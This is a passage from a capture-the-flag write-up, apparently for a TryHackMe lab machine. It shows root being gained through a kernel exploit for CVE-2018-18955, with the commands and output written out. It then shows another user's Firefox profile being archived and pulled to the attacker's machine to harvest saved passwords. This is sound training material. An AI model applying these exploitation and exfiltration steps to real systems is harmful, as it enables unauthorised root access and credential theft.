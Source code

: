 I set up a listener, but couldn't find a way to restart the service to trigger the payload. My attempts to kill the existing `gunicorn` process were unsuccessful.
You could get shell by this method if you know how to kill gunicorn's process. I didn't get the shell this way.

However, `linpeas` also pointed out that the kernel is ancient and vulnerable.

```bash
beth@london:~$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

This version is vulnerable to CVE-2018-18955. I found a great exploit script for it on Exploit-DB: [47166.sh](https://www.exploit-db.com/exploits/47166). This exploit abuses `subuid` mapping and a D-Bus service to create a SUID root shell for us.

After running the script, it dropped a root shell right in my lap.

```bash
beth@london:/tmp$ ./pwn.sh
...
[+] Success:
-rwsr-xr-x 1 root root 8384 Jul  9 07:12 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
# id
uid=0(root) gid=1001(beth) groups=1001(beth)
# cat /root/.root.txt
THM{************************}
```
And we are root!

### Bonus Round: What's Charles Hiding?

We're root, but I can't shake the feeling we left something behind. What about the other user, `charles`? As root, we can now freely explore his home directory.

```bash
root@london:/root# ls -la /home/charles
total 24
drw------- 3 charles charles 4096 Apr 23  2024 .
drwxr-xr-x 4 root    root    4096 Mar 10  2024 ..
lrwxrwxrwx 1 root    root       9 Apr 23  2024 .bash_history -> /dev/null
-rw------- 1 charles charles  220 Mar 10  2024 .bash_logout
-rw------- 1 charles charles 3771 Mar 10  2024 .bashrc
drw------- 3 charles charles 4096 Mar 16  2024 .mozilla
-rw------- 1 charles charles  807 Mar 10  2024 .profile
```

That `.mozilla` directory looks very promising. It likely contains Firefox browser data, including saved passwords. Let's exfiltrate it and see what we can find. I used `tar` to archive the directory, then downloaded it to my local machine with a Python web server.

```bash
# On the target machine
root@london:/home/charles# tar -czvf mozilla.tar.gz .mozilla
root@london:/home/charles# python3 -m http.server 8000

# On my local machine
❯ wget http://10.10.22.48:8000/mozilla.tar.gz
❯ tar -xzvf mozilla.tar.gz
```
